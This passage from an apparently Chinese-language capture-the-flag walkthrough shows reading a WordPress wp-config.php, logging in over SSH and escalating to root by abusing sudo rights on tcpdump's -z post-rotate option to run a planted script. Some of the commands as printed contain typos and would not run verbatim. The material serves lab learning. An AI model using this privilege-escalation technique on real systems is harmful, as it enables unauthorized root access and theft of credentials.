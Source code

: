   ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215224655170.jpg#pic_center)

  建立会话 `cat wp-config.php`

  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215225740435.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

### 12. SSH登录服务器
尝试查看/root/flag.txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215230041101.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

管理员命令也不行

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215230125420.jpg#pic_center)

都没办法查看。↑

### 13. 使用tcpdump执行任意命令
（当tcpdump捕获到数据包后会执行指定的命令。）
查看当前身份可执行的命令。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215230211856.jpg#pic_center)

既然可以用root权限执行tcpdump命令 `touch /tmp/exploit` 那可以创建攻击文件了。↓
（创建后我查看了一番，找到了创建的文件）

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215230307212.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

下面三行命令分别是

1. 写入shellcode `echo 'cat/root/flag.txt' > /tmp.exploit`；

2. 赋予可执行权限 `chmod +x/tmp/exploit`；

3. 利用tcpdump执行任意命令 `sudo tcpdump -i eth0 -w /dev/null -w 1 -G 1 -z /tmp/exploit -Z root`

  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201215230442194.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

  最后得到图中红色方框内的结果。↑


